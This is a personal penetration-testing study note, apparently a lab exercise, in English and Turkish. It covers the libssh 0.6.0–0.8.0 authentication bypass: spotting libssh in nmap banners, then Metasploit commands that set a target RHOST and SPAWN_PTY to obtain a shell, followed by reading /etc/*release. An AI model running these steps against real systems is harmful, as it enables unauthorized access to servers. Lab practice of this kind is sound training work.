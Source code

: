 ### use auxiliary/scanner/ssh/libssh_auth_bypass
#ssh-auth_bypass

##### SSH uses TCP #port22 by default, however, like other services, it can be configured to use any other open TCP port.

### libssh is a multiplatform C library implementing the SSHv2 protocol on client and server side.
+ 
### #libssh V0.6.0-0.8.0 is vulnerable to an authentication bypass vulnerability in the libssh server code that can be exploited to execute commands on the target server.

## #Libssh, SSH protokolünü kullanarak programlar yazmanıza imkan veren bir C kütüphanesidir. 
### Bunda zaafiyet olarak auth bypass yapabiliyoruz.

## nmap libssh
### nmap sonucunda banner'larda libssh sonucunu gördüğümüzde uygulanabilecek bir exploit bu
![[Pasted image 20240305124927.png]]

#### Örneği kendi metasploitable 2-3 de bu libssh banner yok. Yani bu exploit kullanılmaz.
![[Pasted image 20240305125033.png]]



## msfconsole search
![[Pasted image 20240305124744.png]]
### use 0
### set RHOST 10.0.2.7
### set SPAWN_PTY true

## Bunu aktif hale getirmek auxiliary module eğer başarılı olursa bize shell vermesi için
### run

![[Pasted image 20240305132013.png]]

#release
```
### cat /etc/*release

```
![[Pasted image 20240305132137.png]]

---
---